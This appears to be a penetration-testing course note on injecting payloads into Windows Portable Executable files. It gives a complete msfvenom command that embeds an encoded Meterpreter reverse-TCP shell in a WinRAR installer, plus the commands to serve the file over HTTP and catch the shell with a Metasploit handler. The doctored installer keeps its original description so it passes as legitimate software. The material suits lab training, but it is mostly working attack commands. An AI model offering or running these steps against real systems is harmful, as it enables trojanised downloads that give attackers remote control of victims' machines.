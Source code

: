 ### Injecting Payloads into PEs

🗒️ [Windows **Portable Executable**]() (**PE**) *is a file format for executables, object code, DLLs and others, used in 32-bit and 64-bit Windows O.S.*

- Download a portable executable, **`e.g.`** [WinRAR](https://www.win-rar.com/download.html)

- Payloads can be injected into PEs with `msfvenom` with the **`-x`** and **`-k`** options

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -x winrar-x32-621.exe > /home/kali/certs/ejpt/Windows_Payloads/winrar.exe
```

![](assets/image-20230415220833685.png)

```bash
cd /home/kali/certs/ejpt/Windows_Payloads
sudo python -m http.server 8080
msfconsole -q

use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.31.128
set LPORT 1234
run
```

- Transfer and run the `winrar.exe` file to the target O.S.
- File description is kept, but not its functionality.

![](assets/image-20230415221016113.png)
